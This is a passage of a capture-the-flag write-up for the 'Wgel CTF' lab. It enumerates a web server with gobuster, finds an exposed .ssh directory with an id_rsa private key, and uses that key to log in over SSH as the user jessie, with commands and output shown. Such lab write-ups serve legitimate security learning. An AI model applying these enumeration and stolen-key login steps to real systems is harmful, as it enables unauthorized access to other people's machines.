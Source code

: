 
We found a directory named `sitemap`. Let's take a look at it :  
![](https://i.imgur.com/GaWJdcg.jpg)  

I wasn't able to find anything useful in this directory... But if we look at the source code of the index page at `http://[IP]/`, we can find something interesting :  
![](https://i.imgur.com/xaD1HTt.jpg)  

So we have a possible username `Jessie`.  
I searched everywhere on the website and I didn't find anything useful. So maybe we can try another wordlist using [Gobuster](https://github.com/OJ/gobuster) :  
```
attacker@AttackBox:~/Wgel_CTF$ gobuster dir -u http://10.10.72.16/sitemap/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.2.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.72.16/sitemap/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.1
[+] Timeout:                 10s
===============================================================
2023/01/16 17:08:58 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.ssh                 (Status: 301) [Size: 317] [--> http://10.10.72.16/sitemap/.ssh/]
Progress: 545 / 4714 (11.56%)
```

We found a directory named `.ssh`. Let's take a look at it using a web browser (you can also use curl) :  
![](https://i.imgur.com/u6tKL29.jpg)  

There is a file named `id_rsa`, maybe there is a private key for SSH in it :  
![](https://i.imgur.com/sxX3IRX.jpg)  

Yes ! We have a private key for SSH ! And we also found a username before. Let's use those two informations to try to login on SSH :  
```
attacker@AttackBox:~/Wgel_CTF$ nano id_rsa
attacker@AttackBox:~/Wgel_CTF$ chmod 600 id_rsa 
attacker@AttackBox:~/Wgel_CTF$ ssh jessie@10.10.72.16 -i id_rsa 
The authenticity of host '10.10.72.16 (10.10.72.16)' can't be established.
ECDSA key fingerprint is SHA256:9XK3sKxz9xdPKOayx6kqd2PbTDDfGxj9K9aed2YtF0A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.72.16' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$
```
